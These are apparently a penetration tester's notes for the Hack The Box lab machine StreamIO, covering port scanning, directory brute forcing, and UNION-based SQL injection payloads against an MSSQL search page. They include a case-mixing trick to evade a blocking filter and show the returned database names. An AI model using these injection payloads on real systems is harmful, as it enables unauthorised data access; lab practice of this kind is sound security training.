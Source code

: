 # Recon & Enum

### Rustscan & Nmap
```bash
awk -F: '{print $2}' rustscan.txt | paste -sd ","

nmap -p 53,80,88,135,139,389,445,443,464,593,636,3268,3269,5985,9389,49667,49678,49677,49708,54187 -sC -sV $IP
```

### Directory Brute Force
not working without `-k`
```bash
Could not connect to https://streamio.htb due to SSL errors (run with -k to ignore)

feroxbuster -u https://streamio.htb -k
feroxbuster -u https://streamio.htb/admin/ -k -x php

301      GET        2l       10w      150c https://streamio.htb/Admin => https://streamio.htb/Admin/
200      GET        2l        6w       58c https://streamio.htb/admin/master.php
```

# Shell as yoshihide
### SQL injection
* https://watch.streamio.htb/search.php

```sql
Using `null` or `order` will be blocked * https://sandunigfdo.medium.com/sql-injection-union-attack-finding-a-column-containing-text-179949e100b2
Malicious Activity detected!! Session Blocked for 5 minutes 
' UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c),3,4,5,6 fRoM information_schema.schemata--

abcd' union select 1,2,3,4,5,6-- 
abcd' union select 'a',1,2,3,4,5--
abcd' union select 1,'a',2,3,4,5--
abcd' union select 1,@@version,3,4,5,6;-- 

Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) Sep 24 2019 13:48:23 Copyright (C) 2019 Microsoft Corporation Express Edition (64-bit) on Windows Server 2019 Standard 10.0 (Build 17763: ) (Hypervisor) 

abcd' union select 1,name,3,4,5,6 from master..sysdatabases;-- 

master
model
msdb
STREAMIO  <- 10' union select 1,(select DB_NAME()),3,4,5,6--
streamio_backup
tempdb
```
